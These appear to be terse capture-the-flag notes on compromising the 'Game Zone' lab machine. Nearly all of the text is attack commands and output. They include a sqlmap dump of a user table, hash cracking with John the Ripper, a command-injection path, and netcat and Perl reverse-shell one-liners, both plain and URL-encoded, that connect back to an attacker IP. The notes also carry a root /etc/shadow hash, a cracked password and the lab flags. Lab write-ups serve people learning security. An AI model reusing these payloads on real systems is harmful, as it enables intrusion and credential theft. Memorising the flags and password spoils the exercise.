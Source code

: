 ### Game Zone ###

export IP=10.10.150.36

first task was easy:name of the sniper which ofc was hitman..i just didnt know his other alias....which was agent 47

# Request.txt:
POST /portal.php HTTP/1.1
Host: 10.10.150.36
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.150.36/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Connection: close
Cookie: PHPSESSID=hdfdthtfm35tvtsli63dt70el1
Upgrade-Insecure-Requests: 1

searchitem=

#SqlMap:
sqlmap -r request.txt --dbms=mysql --dump

+------------------------------------------------------------------+----------+
| pwd                                                              | username |
+------------------------------------------------------------------+----------+
| ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14 | agent47  |
+------------------------------------------------------------------+----------+

# JohnTheRipper:

john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256

found the pass:videogamer124

ssh'd into the machine:user.txt:649ac17b1480ac13ef1e4fa579dac95c


/file/show.cgi/<MY_CMD>

nc -e /bin/sh 10.11.18.102 4444

nc%20-e%20%2Fbin%2Fsh%2010.11.18.102%204444

perl -e 'use Socket;$i="10.10.150.36";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

perl%20-e%20%27use%20Socket%3B%24i%3D%2210.10.150.36%22%3B%24p%3D4444%3Bsocket(S%2CPF_INET%2CSOCK_STREAM%2Cgetprotobyname(%22tcp%22))%3Bif(connect(S%2Csockaddr_in(%24p%2Cinet_aton(%24i))))%7Bopen(STDIN%2C%22%3E%26S%22)%3Bopen(STDOUT%2C%22%3E%26S%22)%3Bopen(STDERR%2C%22%3E%26S%22)%3Bexec(%22%2Fbin%2Fsh%20-i%22)%3B%7D%3B%27

/etc/shadow:root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::

#Root.txt:
a4b945830144bdd71908d12d902adeee